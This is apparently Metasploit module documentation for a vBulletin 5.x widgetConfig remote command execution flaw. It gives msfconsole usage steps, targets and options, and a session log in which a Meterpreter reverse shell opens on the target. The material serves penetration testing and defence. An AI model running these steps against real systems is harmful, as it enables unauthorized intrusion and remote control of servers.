 ## Vulnerable Application

vBulletin 5.x through 5.5.4 allows remote command execution via the `widgetConfig[code]` parameter in an `ajax/render/widget_php` `routestring` `POST` request.

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/vbulletin_widgetconfig_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set LHOST [IP]`
6. Do: `run`

### Targets

```
  Id  Name
  --  ----
  0   Automatic (Dropper)
  1   Linux (Stager)
  2   Windows (Stager)
  3   Unix (In-Memory)
  4   Windows (In-Memory)
```

## Options

### PHP_CMD

Specify the PHP function in which you want execute the payload. Default: `shell_exec`

### TARGETURI

The base URI path of vBulletin. Default: /

### Advanced Options

### ForceExploit

Override check result.

## Scenarios

A proof of concept was originally published on [seclist.org](https://seclists.org/fulldisclosure/2019/Sep/31).

```
msf exploit(multi/http/vbulletin_widgetconfig_rce) > set rhosts 192.168.1.25
rhosts => 192.168.1.25
msf exploit(multi/http/vbulletin_widgetconfig_rce) > set lhost 192.168.1.13
lhost => 192.168.1.13
msf exploit(multi/http/vbulletin_widgetconfig_rce) > run

[*] Started reverse TCP handler on 192.168.1.13:4444 
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Sending stage (38288 bytes) to 192.168.1.25
[*] Meterpreter session 1 opened (192.168.1.13:4444 -> 192.168.1.25:35772) at 2019-10-18 13:53:39 +0400

meterpreter > 
```
